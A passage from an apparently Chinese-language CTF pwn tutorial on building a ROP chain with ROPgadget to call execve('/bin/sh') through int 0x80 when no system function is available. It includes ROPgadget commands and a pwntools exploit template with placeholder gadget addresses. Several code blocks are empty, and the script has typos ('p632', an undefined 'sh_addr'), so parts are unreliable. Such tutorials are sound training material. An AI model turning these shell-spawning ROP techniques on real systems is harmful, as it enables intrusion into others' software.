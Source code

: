 ### 32位

```

```

### 64位

```

```



## 情况三

当没有system函数，也没有"/bin/sh"，我们就需要自己使用ROPgadget构造一个后面函数所以操作系统的内核函数，想要调用需要通过寄存器传入代号，当要执行int 0x80的这个汇编代码时，我们要确保，寄存器已经传入了对应的参数

```shell
#安装ROPgadget
python -m pip install ROPgadget
#在程序的.text段中寻找，可以组成payload的函数
ROPgadget --binary pwn --only "pop|ret"
#所以要构造sys_execve(),寄存器必须是以下值，才能执行int 0x80
eax=0xb ebx='/bin/sh' ecx=0 edx=0
#写入"/bin/sh"的地方有

```

### 32位

32位程序是利用int 80来进行系统调用read函数，也可以直接使用已有的read函数

```

```

### 64位

64位程序利用syscall来进行系统调用read函数写入"/bin/sh"，也可以直接使用已有的read函数

```python
from pwn import *
elf = ELF('./pwn')
#p = remote('node.buuoj.cn',8888)
p = process('./pwn')

pop_eax = 0x12345678
pop_edx_ecx_ebx = 0x12345678
int_80 = 0x12345678

#bin_sh = 0x12345678 当ELF中存在，可直接调用
payload = flat(cyclic(60),p32(pop_eax),p32(0xb),p32(pop_edx_ecx_ebx),p632(0),p632(0),p32(sh_addr),p32(int_80))
p.sendline(payload)
p.interactive()
```
